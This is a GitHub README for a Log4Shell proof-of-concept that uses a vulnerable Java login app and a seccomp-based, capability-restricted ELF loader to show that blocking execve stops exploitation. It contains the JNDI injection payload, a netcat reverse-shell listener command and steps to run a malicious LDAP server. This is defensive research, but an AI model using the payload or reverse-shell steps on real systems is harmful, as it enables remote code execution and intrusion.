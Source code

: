 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username and password when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment, defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04. 

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling
the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `mvn package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a capability-restricted Java interpreter
The ELF file of the Java interpreter `./jdk1.8.0_20/bin/java` contains information about the system calls that the interpreter requires to run the vulnerable application. In particular, the interpreter does not need to execute the `execve` system call to work properly. The `execve` system call is used to establish the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, it is not possible to establish a reverse shell with the same easy approach as described above if the vulnerable application is run in a sandbox, where it is only allowed to execute te system calls that it requires to work properly.

To test this, perform the same steps as described above, but in step 2, start the vulnerable application with the capability-aware ELF loader:
`sudo ./elf_loader ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
After performing step 5, the vulnerable application should now terminate with the message `Bad system call`, and no reverse shell should be established.


## Creating the capability-restricted Java interpreter
The capability restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed:
```
strace -n -f -o trace.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace.txt | tail -n +2 | grep -E -o '\[[[:blank:]]+[[:digit:]]+\]' | grep -E -o '[[:digit:]]+' | sort -n | uniq | awk 'NR>=0{printf "%s,", $1}' | sed 's/,$//' > syscalls.txt
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command.

Lastly, the extracted system calls were added to the ELF file of the Java interpreter with the provided `elf_patcher`. 

Note that the `elf_loader` reads the required system calls added by the `elf_patcher` and installs a seccomp-BPF filter that ensures that only these system calls are allowed for the vulnerable application. 

The approach taken by the `elf_loader` has some limitations, which requires it to be run with `sudo`. These limitations can be overcome by modifying the Linux kernel to allow `execve` to take the capabilities in ELF files into acoount.







